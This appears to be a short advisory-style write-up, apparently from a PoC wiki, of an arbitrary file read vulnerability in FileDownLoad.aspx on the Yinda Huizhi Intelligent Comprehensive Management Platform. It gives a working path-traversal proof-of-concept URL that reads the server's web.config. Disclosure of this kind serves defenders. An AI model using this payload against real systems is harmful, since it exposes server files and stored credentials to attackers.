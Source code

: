 # Yinda Huizhi Intelligent Comprehensive Management Platform FileDownLoad.aspx Any file reading vulnerability

## Vulnerability Description

Yinda Huizhi Intelligent Comprehensive Management Platform FileDownLoad.aspx There is a vulnerability to read any file in the server. Through the vulnerability attacker, any file in the server can be downloaded.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yinda Huizhi Intelligent Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

Verify POC

```plain
https://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)